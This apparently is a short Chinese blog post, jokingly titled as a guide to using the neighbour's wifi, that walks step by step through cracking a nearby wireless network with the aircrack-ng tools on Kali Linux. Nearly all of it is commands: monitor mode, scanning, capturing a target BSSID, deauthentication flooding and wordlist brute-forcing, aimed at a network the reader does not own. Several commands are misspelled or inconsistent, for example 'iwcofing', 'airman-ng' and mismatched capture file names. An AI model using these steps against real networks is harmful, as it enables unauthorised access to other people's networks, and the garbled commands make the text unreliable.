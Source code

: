 ```yaml
---
layout:     post
title:      借用隔壁老王wifi攻略
category:   tag
description: 借用隔壁老王wifi攻略
---
```

这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1.检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2.Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3.查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4.开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5.查找无线网络
<pre class="prettyprint">
airodump-ng wlan0mon
</pre>

6.网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress wlan0mon
</pre>

7.ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress wlan0mon
</pre>

8. 暴力破解
<pre class="prettyprint">
aircrack-ng outfile1.cap -w /your_world_list_path
</pre>